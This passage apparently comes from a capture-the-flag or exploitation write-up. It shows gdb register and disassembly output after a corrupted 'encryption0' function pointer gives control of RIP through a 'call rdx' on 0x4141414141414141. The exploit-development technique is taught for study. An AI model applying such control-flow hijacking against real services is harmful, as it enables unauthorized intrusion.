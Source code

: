 ![](../img/escape3-after.png)

Because we have now corrupted the `encryption0` function pointer, we are able to control `RIP` the next time the `encryption0` function pointer is called!

{% highlight bash %}
[----------------------------------registers-----------------------------------]
RAX: 0x0   
RBX: 0xf   
RCX: 0x10  
RDX: 0x4141414141414141 ('AAAAAAAA')
RSI: 0x7fffffffe7c0 ("AAAAAAAA")
RDI: 0x7ffff6c0f200 ('A' <repeats 200 times>...)
RBP: 0x7fffffffe9e0 --> 0x7fffffffeb50 --> 0x0
RSP: 0x7fffffffe780 --> 0x7ffff77e4d28 --> 0x0
RIP: 0x40138f (<handleconnection+1318>: call   rdx)
R8 : 0x0   
R9 : 0x0   
R10: 0x0   
R11: 0x246 
R12: 0x400c70 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffec30 --> 0x1
R14: 0x0   
R15: 0x0   
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401380 <handleconnection+1303>:    mov    rax,QWORD PTR [rbp-0x238]
   0x401387 <handleconnection+1310>:    mov    rdi,rax
   0x40138a <handleconnection+1313>:    mov    eax,0x0
=> 0x40138f <handleconnection+1318>:    call   rdx
   0x401391 <handleconnection+1320>:    mov    edx,0x4
   0x401396 <handleconnection+1325>:    mov    esi,0x401786
   0x40139b <handleconnection+1330>:    mov    rdi,rax
   0x40139e <handleconnection+1333>:    call   0x400b10 <strncmp@plt>
Guessed arguments:
arg[0]: 0x7ffff6c0f200 ('A' <repeats 200 times>...)